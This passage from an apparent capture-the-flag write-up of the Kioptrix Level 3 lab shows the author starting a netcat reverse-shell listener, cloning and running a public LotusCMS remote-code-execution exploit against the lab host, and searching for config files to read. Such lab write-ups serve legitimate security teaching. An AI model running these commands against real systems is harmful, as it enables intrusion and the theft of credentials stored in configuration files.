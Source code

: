 ```bash
# Netcat Listener
nc -nvlp 9001

git clone https://github.com/Hood3dRob1n/LotusCMS-Exploit
cd LotusCMS-Exploit
./lotusRCE.sh kioptrix3.com /
```

![Lotus CMS|520](images/vulnhub-kioptrix-lvl3/lotus-cms-2.png)

The script checks if the target is vulnerable and then asks for the IP address of the attack machine along with a port. Before selecting the type of listener to use ensure to start `netcat` in a separate terminal listening on the port provided in the script.

![Reverse Shell Listener|440](images/vulnhub-kioptrix-lvl3/lotus-cms-3.png)

The exploit puts us at the root of the website source code. Using `find` I checked if any config files are present.

```bash
# Find Files in current directory
find . -type f -iname *config*

# View file content
cat ./gallery/gconfig.php
```
